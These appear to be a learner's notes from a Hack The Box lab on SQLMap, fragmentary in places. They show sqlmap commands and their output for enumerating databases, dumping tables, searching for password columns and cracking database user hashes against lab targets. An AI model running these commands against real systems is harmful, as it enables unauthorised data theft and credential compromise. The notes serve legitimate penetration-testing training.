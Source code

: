 
(switch `--banner`) for the target based on MySQL DBMS, the `VERSION()`

(switch `--current-user`), the `CURRENT_USER()`

retrieving all the usernames (i.e., tag `<users>`)

vulnerable target (`--hostname`), current user's name (`--current-user`), current database name (`--current-db`), or password hashes (`--passwords`).

- Database version banner (switch `--banner`)
- Current user name (switch `--current-user`)
- Current database name (switch `--current-db`)
- Checking if the current user has DBA (administrator) rights (switch `--is-dba`)

```bash
AhmaDb0x@htb[/htb]$ sqlmap -u "http://www.example.com/?id=1" --banner --current-user --current-db --is-dba
```

>Note: The 'root' user in the database context in the vast majority of cases does not have any relation with the OS user "root", other than that representing the privileged user within the DBMS context. This basically means that the DB user should not have any constraints within the database context, while OS privileges (e.g. file system writing to arbitrary location) should be minimalistic, at least in the recent deployments. The same principle applies for the generic 'DBA' role.


## Table Enumeration
```bash
AhmaDb0x@htb[/htb]$ sqlmap -u "http://www.example.com/?id=1" --tables -D testdb
```
```shell-session
[4 tables]
+---------------+
| member        |
| data          |
| international |
| users         |
+---------------+
```
---
```bash
AhmaDb0x@htb[/htb]$ sqlmap -u "http://83.136.254.73:47639/case1.php?id=1" --dump -T flag1 -D testdb

...SNIP...
Database: testdb

Table: users
[4 entries]
+----+--------+------------+
| id | name   | surname    |
+----+--------+------------+
| 1  | luther | blisset    |
| 2  | fluffy | bunny      |
| 3  | wu     | ming       |
| 4  | NULL   | nameisnull |
+----+--------+------------+
```


## Conditional Enumeration

```bash
AhmaDb0x@htb[/htb]$ sqlmap -u "http://www.example.com/?id=1" --dump -T users -D testdb --where="name LIKE 'f%'"

...SNIP...
Database: testdb

Table: users
[1 entry]
+----+--------+---------+
| id | name   | surname |
+----+--------+---------+
| 2  | fluffy | bunny   |
+----+--------+---------+
```


## Full DB Enumeration
e.g. `--dump -D testdb`). By simply using the switch `--dump` without specifying a table with `-T`, all of the current database content will be retrieved. As for the `--dump-all` switch, all the content from all the databases will be retrieved.

`--exclude-sysdbs` (e.g. `--dump-all --exclude-sysdbs`), which will instruct SQLMap to skip the retrieval of content from system databases, as it is usually of little interest for pentesters.

---


# Advanced Database Enumeration

## DB Schema Enumeration

```bash
hmaDb0x@htb[/htb]$ sqlmap -u "http://83.136.254.73:47639/case1.php?id=1" --schema

...SNIP...
Database: master
Table: log
[3 columns]
+--------+--------------+
| Column | Type         |
+--------+--------------+
| date   | datetime     |
| agent  | varchar(512) |
| id     | int(11)      |
+--------+--------------+

Database: owasp10
Table: accounts
[4 columns]
+-------------+---------+
| Column      | Type    |
+-------------+---------+
| cid         | int(11) |
| mysignature | text    |
| password    | text    |
| username    | text    |
+-------------+---------+
...
Database: testdb
Table: data
[2 columns]
+---------+---------+
| Column  | Type    |
+---------+---------+
| content | blob    |
| id      | int(11) |
+---------+---------+

Database: testdb
Table: users
[3 columns]
+---------+---------------+
| Column  | Type          |
+---------+---------------+
| id      | int(11)       |
| name    | varchar(500)  |
| surname | varchar(1000) |
+---------+---------------+
```

----

## Searching for Data
```bash
AhmaDb0x@htb[/htb]$ sqlmap -u "http://www.example.com/?id=1" --search -T user

...SNIP...
[14:24:19] [INFO] searching tables LIKE 'user'
Database: testdb
[1 table]
+-----------------+
| users           |
+-----------------+

Database: master
[1 table]
+-----------------+
| users           |
+-----------------+
```
for column:
```bash
AhmaDb0x@htb[/htb]$ sqlmap -u "http://83.136.254.73:47639/case1.php?id=1" --search -C password

...SNIP...
columns LIKE 'pass' were found in the following databases:
Database: owasp10
Table: accounts
[1 column]
+----------+------+
| Column   | Type |
+----------+------+
| password | text |
+----------+------+

Database: master
Table: users
[1 column]
+----------+--------------+
| Column   | Type         |
+----------+--------------+
| password | varchar(512) |
+----------+--------------+
```

---
## Password Enumeration and Cracking
```bash
AhmaDb0x@htb[/htb]$ sqlmap -u "http://83.136.254.73:47639/case1.php?id=1" --dump -D testdb -T users

...SNIP...
[14:31:41] [INFO] fetching columns for table 'users' in database 'master'
[14:31:41] [INFO] fetching entries for table 'users' in database 'master'
[14:31:41] [INFO] recognized possible password hashes in column 'password'
do you want to store hashes to a temporary file for eventual further processing with other tools [y/N] N

do you want to crack them via a dictionary-based attack? [Y/n/q] Y
```

## DB Users Password Enumeration and Cracking
```bash
AhmaDb0x@htb[/htb]$ sqlmap -u "http://83.136.254.73:47639/case1.php?id=1" --passwords --batch
```
```shell-session

[*] debian-sys-maint [1]:
    password hash: *6B2C58EABD91C1776DA223B088B601604F898847
[*] root [1]:
    password hash: *00E247AC5F9AF26AE0194B41E1E769DEE1429A29
    clear-text password: testpass
```

>Tip: The '--all' switch in combination with the '--batch' switch, will automa(g)ically do the whole enumeration process on the target itself, and provide the entire enumeration details.

